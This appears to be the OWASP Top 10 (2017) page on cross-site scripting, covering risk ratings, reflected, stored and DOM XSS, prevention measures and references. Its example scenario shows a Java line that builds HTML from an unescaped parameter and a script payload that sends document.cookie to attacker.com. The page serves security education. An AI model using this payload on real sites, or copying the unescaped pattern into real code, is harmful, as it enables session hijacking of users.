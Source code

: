 # A7:2017 Cross-Site Scripting (XSS)

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl \| Exploitability 3 | Prevalence 3 \| Detectability 3 | Technical 2 \| Business |
| Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks. | XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications. Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET. | The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim. |

## Is the Application Vulnerable?

There are three forms of XSS, usually targeting users' browsers:

* **Reflected XSS**: Your app or API includes unvalidated and  unescaped user input as part of HTML output or there is no content security policy ([CSP](https://www.owasp.org/index.php/Content_Security_Policy)) header. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim's browser. Typically the user will need to interact with a link, or some other attacker controlled page, such as a watering hole attack, malicious advertisements, or similar.
* **Stored XSS**: Your app or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
* **DOM XSS**: JavaScript frameworks, single page apps, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client side attacks.

## How To Prevent

Preventing XSS requires separation of untrusted data from active browser content.

* Use safer frameworks that automatically escape for XSS by design, such as in Ruby 3.0 or React JS, or leverage framework XSS protections.
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) has details on the required data escaping techniques.
* Applying context sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense in depth mitigating control against XSS, assuming no other vulnerabilities exist that would allow placing malicious code via local file include such as path traversal overwrites, or vulnerable libraries in permitted sources, such as content delivery network or local libraries. 

## Example Attack Scenario

**Scenario 1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the 'CC' parameter in the browser to:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

This attack causes the victim's session ID to be sent to the attacker's website, allowing the attacker to hijack the user's current session.

Note that attackers can use XSS to defeat any automated CSRF defense the application might employ. 

## References

### OWASP

* [OWASP Proactive Controls: #3 Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: #4 Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
